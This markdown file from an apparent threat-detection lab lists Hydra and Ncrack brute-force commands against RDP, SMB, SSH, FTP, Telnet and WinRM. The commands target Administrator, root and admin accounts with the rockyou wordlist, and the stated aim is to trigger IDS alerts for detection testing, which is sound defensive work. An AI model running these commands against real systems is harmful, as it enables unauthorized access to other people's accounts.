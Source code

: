 # 🔐 Brute Force Attack Scripts - ThreatDetectionLab

This file lists brute-force attack commands used for testing detection across various services in the ThreatDetectionLab. These simulate real-world attacker behavior to trigger log events, IDS alerts, and correlation rules.

---

## 🔑 Brute Force Scripts (Hydra & Ncrack)

### RDP (Port 3389)

hydra -t 4 -V -l Administrator -P /usr/share/wordlists/rockyou.txt rdp://<target>
ncrack -p 3389 -u Administrator -P rockyou.txt <target>

---
### SMB (Port 445)

hydra -t 4 -V -l Administrator -P /usr/share/wordlists/rockyou.txt smb://<target>
ncrack -p 445 -u Administrator -P rockyou.txt <target>

---
### SSH (Port 22)

hydra -t 4 -V -l root -P /usr/share/wordlists/rockyou.txt ssh://<target>
ncrack -p 22 -u root -P rockyou.txt <target>

---

### FTP (Port 21)
hydra -t 4 -V -l admin -P /usr/share/wordlists/rockyou.txt ftp://<target>
ncrack -p 21 -u admin -P rockyou.txt <target>

---

### Telnet (Port 23)

hydra -t 4 -V -l admin -P /usr/share/wordlists/rockyou.txt telnet://<target>
ncrack -p 23 -u admin -P rockyou.txt <target>

---
### WinRM (Port 5985)

ncrack -p 5985 -u Administrator -P rockyou.txt <target>




